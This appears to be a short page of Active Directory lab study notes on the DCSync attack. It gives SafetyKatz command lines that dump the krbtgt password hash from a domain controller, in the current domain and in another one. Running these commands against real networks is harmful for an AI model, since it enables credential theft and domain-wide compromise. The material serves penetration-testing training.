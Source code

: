 # DCSync

### &#x45;_&#x78;ecute the DCSync attack to pull hashes of the krbtgt user_&#x20;

Use safetykatz to extract the hash of any user

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20231025125418 (1).png" alt=""><figcaption></figcaption></figure>

### DCSync another domain

{% code overflow="wrap" %}
```
./SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>" "exit"
```
{% endcode %}
